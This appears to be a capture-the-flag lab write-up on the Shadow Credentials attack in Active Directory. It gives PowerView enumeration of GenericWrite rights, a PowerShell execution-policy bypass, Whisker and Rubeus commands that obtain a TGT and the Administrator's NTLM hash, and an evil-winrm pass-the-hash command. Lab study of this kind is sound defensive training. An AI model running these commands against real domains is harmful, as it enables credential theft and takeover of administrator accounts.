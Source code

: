 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
          - [Objectives](#Objectives)
- [Window Hello for Business](#window\hello\for\business)
  - [Enumeration](#Enumeration)
      - [Exploitation](#Exploitation)
          - [Obtain the NTLM Hash](#Obtain\the\NTLM\Hash)
          - [Performing a pass-the-hash attack using evil-winrm](#Performing\a\pass-the-hash\attack\using\evil-winrm)

## Table of Contents

          - [Objectives](#Objectives)
- [Window Hello for Business](#window\hello\for\business)
  - [Enumeration](#Enumeration)
      - [Exploitation](#Exploitation)
          - [Obtain the NTLM Hash](#Obtain\the\NTLM\Hash)
          - [Performing a pass-the-hash attack using evil-winrm](#Performing\a\pass-the-hash\attack\using\evil-winrm)


###### Objectives
- Intro to Windows Hello for Business
- Prerequisites for exploiting GenericWrite Privilege
- How Shadow Credentials work
- How to exploit the vulnerability
---
# Window Hello for Business
	"Think Passwords Are Hard To Remember - Say Hello to WHfB"
- Way to replace conventional keys for user verification. User on the Active directory domain can access the `AD` using a PIN or biometrics connected to a pair of cryptographic keys. Public and private. These keys are used to help to prove the identity of the entity to which they belong. 
- `msDS-KeyCredentialLink` is an attribute by the Domain Controller to store the public key in Windows Hello for Privilege

![[Pasted image 20231220033542.png]]



The procedure for storing a new pair of certificates with `WHfB`:
1. `Truster Platform Module` public-private key pair generation: The TPM creates a public-private key pair fdor the user's account when they enroll. 
2. `Client Certificate Request`: The client initiates a certificate request to receive a trustworthy certificate. The organisation's certificate issuing authority (CA) receives this request and provides a valid certificiate. 
3. `Key Storage`: The user account's `msDS-KeyCredentialLink`


Authentication Process:
1. Authorisation: The Domain Controller decrypts the client's pre-authentication data using the raw public key stored in the `msDS-KeyCredentialLink` attribute of the user's account.
2. Certificate Generation: The certificate is created for the user by the Domain Controller and can be sent back to the client
3. Authentication: After that, the client can log in to the Active directory domain using the certificate.

## Enumeration
Check for and security misconfigurations. 
- Enumerate for vulnerable permissions
	- Use PowerShell Script `PowerView`
```powershell
Find-InterestingDomainAcl
```
This will list all abusable privileges. It's then possible to filter for the current user "hr"

In this case we are specifically looking for any write privilege since the goal is to overwrite the `msDS-KeyCredentialLink`
**Bypass default policy for arbitrary PowerShell Script execution**
```powershell
powershell -ep bypass
```

At this point, we can enumerate the privileges by running:  
`Find-InterestingDomainAcl -ResolveGuids`

**This command return's all users' privileges. We can filter it as follows, whereas "\\" represents the filter being sought after.**
```powershell
Where-Object { $_.IdentityReferenceName -eq "\"}
```
---
**Filter out the current user, Vulnerable user, and the privilege assigned:**
```powershell
Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```
---
**The full command for finding vulnerable privileges on a given user ('hr'):**
```powershell
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```

![[Pasted image 20231220034606.png]]
- From the output, the user "hr" has the `GenericWrite` permission over the administrator object visible on the CN attribute. Later, we can compromise the account with that privilege by updating the `msDS-KeyCredentialLink` with a certificate. This vulnerability is known as the *Shadow Credentials Attack*.
Note: The vulnerable user may not be the same as the administrator; please note that down since you will use it in the exploitation section!
- ---
#### Exploitation
`Whisker` - a `C#` utility created by Elad Shamir. Whisker is straightforward: once we have a vulnerable user, we run the add command from whisker to simulate the enrollment of a malicious device updating the `msDS-KeyCredentialLink`

- This task can be accomplished by running the following command: 
`.\Whisker.exe add /target:Administrator`

In your case, you'll have to replace the `/target` parameter with the one from the enumeration step executed inside your VM.

- **Exploit the vulnerable privilege**
```powershell
PS C:\Users\hr\Desktop> .\Whisker.exe add /target:Administrator
```
- This will provide the certificate necessary to authenticate the impersonation of the vulnerable user with a command ready to be launched using `Rubeus`

1. Ask for a `Ticket-Granting-Ticket` of the vulnerable user using the certificate generated in the previous command.
2. Once the certificate is obtained, you can acquire a valid `TGT` and impersonate the vulnerable user. Additionally, the `NTLM` hash of the user account can be displayed in the console output, which can be easily used for a `pass-the-hash` attack.

`asktgt` - makes a request to obtain the TGT
`/user` - User we want to impersonate for the TGT
`/certificate` - the certificate generated to impersonate the target user
`/password` - the password for decoding the certificate since it encrypted
`/domain` - the target domain
`/getcredentials` - this flag will retrieve the NTLM hash, which in the next step:
- `/dc`
---
###### Obtain the NTLM Hash
```powershell
.\Rubeus.exe asktgt /user:Administrator /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEH[snip] /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```
###### Performing a pass-the-hash attack using evil-winrm
```bash
evil-winrm -i MACHINE_IP -u USERNAME -H HASH...
```
****




















































































































